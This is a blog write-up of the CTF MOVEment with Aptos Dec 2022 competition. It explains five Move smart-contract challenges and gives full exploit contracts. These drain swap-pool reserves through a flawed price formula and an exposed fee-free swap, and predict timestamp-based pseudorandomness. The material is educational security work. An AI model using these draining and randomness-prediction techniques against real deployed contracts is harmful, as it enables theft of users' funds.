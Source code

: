 ```yaml
---
weight: 5
title: "CTF MOVEment with Aptos Dec 2022 Writeup"
date: 2022-12-14T17:55:28+08:00
lastmod: 2022-12-14T17:55:28+08:00
draft: false
author: "Qi Qin"
authorLink: "https://leoq7.com"
description: "Writeup for CTF MOVEment with Aptos Dec 2022"
images: []
# resources:
# - name: "featured-image"
#   src: "featured-image.jpg"


tags: ["Web3", "CTF", "Move"]
categories: ["Web3"]

twemoji: false
lightgallery: true
---
```


## Preface

It's been half a year since I last wrote a blog. During that time, I've learned a lot about Web3 security, including Solana and Aptos. Before learning Solana and Aptos, I had some exposure to Ethereum during my freshman year. In my opinion, Solana and Aptos not only have a significant improvement in TPS over Ethereum, but the contracts written in Rust and Move are more secure; in terms of user-friendliness, the Move language is easier to use and less error-prone than Rust and Anchor. Last weekend, I participated in the CTF MOVEment with Aptos Dec 2022 jointly organized by MoveBit, Aptos, ChainFlag and OtterSec, and scored two first-bloods and two second-bloods in the four challenges except the sanity-check, ranking first in the end. In this post, I will briefly introduce the solutions to the five challenges.

<center class="img">
    <img src="./evolution.webp" width="90%">
    <p align="center" style="font-size:12px;">Image by <a src=https://medium.com/@kklas/smart-contract-development-move-vs-rust-4d8f84754a8f>Krešimir Klas</a></p>
</center>

## Challenge 1: checkin

{{< admonition note "Challenge Info" >}}
- Source: https://github.com/movebit/ctfmovement-1
- Link: http://47.243.227.164:20000/web/
- Score: 100
{{< /admonition >}}

### Target contract

The challenge 1 is a sanity-check to let players get familiar with how to use `aptos-cli` to communicate with the private chain where the challenge contract is deployed. There is a `get_flag` function in the contract, and once it's called it will emit an `Flag` event.

### Solution

After initializing an account and invoking the `get_flag` function via `aptos-cli`, we can submit the transaction hash to the challenge website, the server will check whether this transaction triggers the `Flag` event, and if so, the server will return the flag.

```bash
aptos init --assume-yes --network custom --rest-url http://8.218.146.10:9080 --faucet-url http://8.218.146.10:9081
aptos move run --assume-yes --function-id VICTIM_ADDRESS::checkin::get_flag
```


## Challenge 2: hello move

{{< admonition note "Challenge Info" >}}
- Source: https://github.com/movebit/ctfmovement-2
- Link: http://47.243.227.164:20001/web/
- Score: 200
{{< /admonition >}}

### Target contract

The challenge 2 is a simple challenge to let players get familiar with the Move language. The contract has five functions: `init_challenge`, `hash`, `discrete_log`, `add`, `pow` and `get_flag`. The `init_challenge` function is used to initialize the challenge by sending the caller a `Challenge` object with 5 members, `balance=10`, `q1=false`, `q2=false`, `q3=false`, and an event handler. `q1`, `q2`, `q3` indicates the solving status of the 3 sub-problems in this challenge, and these status will be checked in the `get_flag` function.

#### q1: hash

`q1` will be set to true if we invoke the `hash` function and provide a `guess: vector<u8>` satisfying `len(guess)==4 && keccak256(guess+"move")=="d9ad5396ce1ed307e8fb2a90de7fd01d888c02950ef6852fbc2191d2baf58e79"`.  This can be solved by writing a simple script to brute-force all the possible guesses, and the answer is `good`.

#### q2: discrete_log

In order to set `q2` to true, we need to provide a `guess: u128` satisfying `pow(10549609011087404693, guess, 18446744073709551616) == 18164541542389285005`, which is a classic discrete logarithm problem. We can solve this with `discrete_log(18164541542389285005,Mod(10549609011087404693,18446744073709551616))` in sage, and the answer is $3123592912467026955$.

#### q3: add

The sub-problem `q3` is more interesting. Similar to other checked math implementation, the [Shl and Shr operations in Move language](https://github.com/move-language/move/blob/main/language/move-vm/runtime/src/interpreter.rs#L1945-L1952) will raise an [ARITHMETIC_ERROR](https://github.com/move-language/move/blob/main/language/move-vm/types/src/values/values_impl.rs#L1568-L1604) if the shift amount is greater than or equal to the bit width of the operand as this is an undefined behavior. And the `Shl` operations won't raise `ARITHMETIC_ERROR` if there is an overflow. So we can shift the current balance $10$ to the left by more than $8$ bits to set the balance to $0$.

### Exploit contract

```rust
module solution::solution2 {

    use std::signer;
    use std::vector;

    use ctfmovement::hello_move;

    public entry fun solve(account: &signer) {
        hello_move::init_challenge(account);
        hello_move::hash(account, vector[103,111,111,100]);
        hello_move::discrete_log(account, 3123592912467026955);
        hello_move::add(account, 3, 5);
        hello_move::add(account, 3, 5);
        hello_move::get_flag(account);
    }

}
```

## Challenge 3: swap empty

{{< admonition note "Challenge Info" >}}
- Source: https://github.com/movebit/ctfmovement-3
- Link: http://47.243.227.164:20002/web/
- Score: 200
{{< /admonition >}}

### Target contract

This target contract implements a very simple swap protocol, which allows users to swap between two tokens `Coin1` and `Coin2`. The contract has a `get_coin` function to let the user get an airdrop of $5$ `Coin1` and $5$ `Coin2`, two functions `swap_12` and `swap_21` to swap between `Coin1` and `Coin2`, and a `get_flag` function checks whether the amount of `Coin1` or `Coin2` in the reserved account is `0`.

### Vulnerability

The vulnerability is the design of the `get_amouts_out` function. This contract uses a very naive way of calculating the amount of token that can be exchanged based on the ratio of `Coin1` and `Coin2` in the reserve account. However, this design is not safe, consider the following POC:

- Attacker get $5$ `Coin1` and $5$ `Coin2` from airdrop
  User: $5$ `Coin1`, $5$ `Coin2`; Reserve: $50$ `Coin1`, $50$ `Coin2`

- Attacker swap $5$ `Coin2` to $5\cdot\frac{50}{50}=5$ `Coin1`
  User: $10$ `Coin1`, $0$ `Coin2`; Reserve: $45$ `Coin1`, $55$ `Coin2`

- Attacker swap $10$ `Coin1` to $10\cdot\frac{55}{45}=12$ `Coin2`
  User: $0$ `Coin1`, $12$ `Coin2`; Reserve: $55$ `Coin1`, $43$ `Coin2`

- Attacker swap $12$ `Coin2` to $12\cdot\frac{55}{43}=15$ `Coin1`
  User: $15$ `Coin1`, $0$ `Coin2`; Reserve: $40$ `Coin1`, $55$ `Coin2`

- ...

By repeating this process, a malicious user could drain almost all the tokens in the reserved accounts.

### Exploit contract

```rust
module solution::solution3 {

    use std::signer;
    use std::vector;

    use aptos_framework::coin::{Self, Coin};

    use ctfmovement::pool::{Self, Coin1, Coin2};

    public entry fun solve(account: &signer) {
        pool::get_coin(account);

        let coin2 = coin::withdraw<Coin2>(account, 5);
        let coin1 = pool::swap_21(&mut coin2, 5);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        let coin1 = coin::withdraw<Coin1>(account, 10);
        let coin2 = pool::swap_12(&mut coin1, 10);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        let coin2 = coin::withdraw<Coin2>(account, 12);
        let coin1 = pool::swap_21(&mut coin2, 12);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        let coin1 = coin::withdraw<Coin1>(account, 15);
        let coin2 = pool::swap_12(&mut coin1, 15);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        let coin2 = coin::withdraw<Coin2>(account, 20);
        let coin1 = pool::swap_21(&mut coin2, 20);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        let coin1 = coin::withdraw<Coin1>(account, 24);
        let coin2 = pool::swap_12(&mut coin1, 24);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        pool::get_flag(account);
    }
}
```

### Possible fix

One possible fix is to use the following formula to calculate the number of tokens that can be exchanged, to ensure that the product of the two token amounts is always constant:

```rust
public fun get_amouts_out(pool: &LiquidityPool, amount: u64, order: bool): u64 {
    let (token1, token2) = get_amounts(pool);
    if (order) {
        return (amount * token2) / (token1 + amount)
    }else {
        return (amount * token1) / (token2 + amount)
    }
}
```

## Challenge 4: simple swap

{{< admonition note "Challenge Info" >}}
- Source: https://github.com/movebit/ctfmovement-4
- Link: http://47.243.227.164:20003/web/
- Score: 300
{{< /admonition >}}

### Target contract

This contract implements a Uniswap v2 like coin swap program that allows users to swap between `TestUSDC` and `SimpleCoin` with a $0.25\%$ fee rate and a $0.1\%$ bonus if a user swaps `TestUSDC` to `SimpleCoin`. In the initialization process, the admin added $10^{10}$ `TestUSDC` and $10^{10}$ `SimpleCoin` to the pool.  The `get_flag` function will check if the user has at least $10^{10}$ `SimpleCoin`, if so, the user will get the flag.

### Vulnerability

There are two vulnerabilities in this contract.

- The first vulnerability is that there is no limit on the amount of tokens that a user can claim via airdrop. An attacker can claim a large amount of tokens and then swap them to other tokens to drain the reserve pool.
- The second vulnerability is that the `swap_exact_x_to_y_direct` and `swap_exact_y_to_x_direct` functions are incorrectly exposed to the public. An attacker can call this function to swap tokens without paying the fee.

Combining these two vulnerabilities, an attacker could first claim a large amount of `TestUSDC` and then swap an amount of `TestUSDC` equal to the current reserve pool for `SimpleCoin` each time to drain half of the reserve pool while receiving a $0.1\%$ bonus. After $n$ repetitions, the amount of `SimpleCoin` in the reserve pool will be reduced to $10^{10}\cdot\frac{1}{2^n}$.

### Exploit contract

```rust
module solution::solution4 {

    use std::signer;
    use std::vector;

    use ctfmovement::simple_coin::{Self, SimpleCoin, CoinCap, TestUSDC};
    use ctfmovement::swap::{Self, LPCoin};
    use aptos_framework::coin::{Self, BurnCapability, MintCapability, FreezeCapability, Coin};

    public entry fun solve(account: &signer) {

        simple_coin::claim_faucet(account, 1000000000000000000);
        swap::check_or_register_coin_store<SimpleCoin>(account);
        let base = 10000000000; 
        let i = 0;
        while (i < 20) {
            let tusdc = coin::withdraw<TestUSDC>(account, base);
            let (simple_coin, simple_coin_reward) = swap::swap_exact_y_to_x_direct<SimpleCoin, TestUSDC>(tusdc);
            coin::deposit<SimpleCoin>(signer::address_of(account), simple_coin);
            coin::deposit<SimpleCoin>(signer::address_of(account), simple_coin_reward);
            base = base * 2;
            i = i + 1;
        };

        simple_coin::get_flag(account);
    }
}
```

### Possible fix

- Add a limit to the airdrop amount each account can claim
- Remove the `public` visibility modifier of the `swap_exact_x_to_y_direct<X, Y>` function to make it private

## Challenge 5: move lock v2

{{< admonition note "Challenge Info" >}}
- Source: https://github.com/movebit/ctfmovement-5
- Link: http://47.243.227.164:20004/web/
- Score: 400
{{< /admonition >}}

### Target contract

This contract generate a number by using a polynomial whose coefficients are generated by a string encrypted with script hash and several pseudo-random numbers. Flag event will be emitted if the user guesses the correct number. Obviously, it is almost impossible to guess the correct number, since the number of possible guesses is $2^{128}$.

### Vulnerability

The vulnerability is that the pesudorandom number is generated with a timestamp in seconds and a counter. The counter is initialized to $0$ and will be increased by $1$ each time a random number is generated. Therefore, both the timestamp and the counter are predictable. An attacker can just reuse most of the code in the target contract to generate a same polynomial and the correct number directly. Recall that the string is encrypted by XORing script hash and a constant, we need to call the exploit contract via a script.

### Exploit contract

```rust
module solution::solution5 {

    //
    // [*] Dependencies
    //
    use aptos_framework::transaction_context;
    use aptos_framework::timestamp;
    use aptos_framework::account;
    // use aptos_framework::event;

    // use aptos_std::debug;
    
    use std::vector;
    // use std::signer;
    use std::hash;
    use std::bcs;    
    
    //
    // [*] Structures
    //
    struct Polynomial has drop {
        degree : u64,
        coefficients : vector<u8>
    }

    struct Counter has key {
        value : u64
    }

    use ctfmovement::move_lock;

    const BASE : vector<u8> = b"HoudiniWhoHoudiniMeThatsHoudiniWho";
    
    //
    // [*] Module Initialization 
    //
    fun init_module(creator: &signer) {
        move_to(creator, Counter{ value: 0 })
    }

    public entry fun solve(account: &signer): bool acquires Counter  {
        let encrypted_string : vector<u8> = encrypt_string(BASE);
        
        let res_addr : address = account::create_resource_address(&@ctfmovement, encrypted_string);

        let bys_addr : vector<u8> = bcs::to_bytes(&res_addr);

        let i = 0;
        let d = 0;
        let cof : vector<u8> = vector::empty<u8>();
        while ( i < vector::length(&bys_addr) ) {

            let n1 : u64 = gen_number() % (0xff as u64);
            let n2 : u8 = (n1 as u8);
            let tmp : u8 = *vector::borrow(&bys_addr, i);

            vector::push_back(&mut cof, n2 ^ (tmp));

            i = i + 5;
            d = d + 1;
        };

        let pol : Polynomial = constructor(d, cof);

        let x : u64 = gen_number() % 0xff;
        let result = evaluate(&mut pol, x);
        
        move_lock::unlock(account, result)
    }
    
    //
    // [*] Local functions
    //
    fun increment(): u64 acquires Counter {
        let c_ref = &mut borrow_global_mut<Counter>(@solution).value;
        *c_ref = *c_ref + 1;
        *c_ref
    }

    fun constructor( _degree : u64, _coefficients : vector<u8>) : Polynomial {
        Polynomial {
            degree : _degree,
            coefficients : _coefficients
        }
    }

    fun pow(n: u64, e: u64): u64 {
        if (e == 0) {
            1
        } else if (e == 1) {
            n
        } else {
            let p = pow(n, e / 2);
            p = p * p;
            if (e % 2 == 1) {
                p = p * n;
                p
            } else {
                p
            }
        }
    }

    fun evaluate(p : &mut Polynomial, x : u64) : u128 {
        let result : u128 = 0;
        let i : u64 = 0;

        while ( i < p.degree ) {
            result = result + (((*vector::borrow(&p.coefficients, i) as u64) * pow(x, i)) as u128);
            i = i + 1;
        };

        result
    }

    fun seed(): vector<u8> acquires Counter {
        let counter = increment();
        let counter_bytes = bcs::to_bytes(&counter);

        let timestamp: u64 = timestamp::now_seconds();
        let timestamp_bytes: vector<u8> = bcs::to_bytes(&timestamp);

        let data: vector<u8> = vector::empty<u8>();
        vector::append<u8>(&mut data, counter_bytes);
        vector::append<u8>(&mut data, timestamp_bytes);

        let hash: vector<u8> = hash::sha3_256(data);
        hash
    }

    fun get_u64(bytes: vector<u8>): u64 {
        let value = 0u64;
        let i = 0u64;
        while (i < 8) {
            value = value | ((*vector::borrow(&bytes, i) as u64) << ((8 * (7 - i)) as u8));
            i = i + 1;
        };
        return value
    }

    fun gen_number() : u64 acquires Counter {
        let _seed: vector<u8> = seed();
        get_u64(_seed)
    }

    fun encrypt_string(plaintext : vector<u8>) : vector<u8> {
        let key : vector<u8> = transaction_context::get_script_hash();
        let key_len : u64 = vector::length(&key);

        let ciphertext : vector<u8> = vector::empty<u8>();

        let i = 0;
        while ( i < vector::length(&plaintext) ) {
            vector::push_back(&mut ciphertext, *vector::borrow(&plaintext, i) ^ *vector::borrow(&key, (i % key_len)));
            i = i + 1;
        };

        ciphertext
    }
}
```